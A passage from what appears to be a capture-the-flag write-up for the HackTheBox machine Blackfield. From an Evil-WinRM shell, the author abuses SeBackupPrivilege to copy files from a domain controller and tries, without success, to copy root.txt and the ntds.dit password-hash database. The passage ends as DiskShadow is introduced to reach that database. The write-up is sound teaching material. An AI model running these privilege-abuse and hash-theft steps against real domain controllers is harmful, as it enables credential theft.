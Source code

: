 But I can copy it and read it:

```
*Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
*Evil-WinRM* PS C:\windows\system32\config> type \programdata\netlogon.dns
2a754031-e5c5-4e88-bb09-09aae693753c._msdcs.BLACKFIELD.local. 600 IN CNAME DC01.BLACKFIELD.local.
_ldap._tcp.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
_ldap._tcp.Default-First-Site-Name._sites.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
_ldap._tcp.pdc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
_ldap._tcp.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
_ldap._tcp.Default-First-Site-Name._sites.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
...[snip]...

```

Unfortunately, for some reason, I can’t read `root.txt`:

```
*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Opening input file. - Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
At line:1 char:1
+ Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege

```

The next file I wanted to grab was `ntds.dit`, the database on the DC that holds all the password hashes. Unfortunately, I can’t grab it because it’s in use:

```
*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege

```

### DiskShadow

#### Background / Strategy

A good way to read the `ntds.dit` file is using [another Microsoft utility](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow), `diskshadow`:
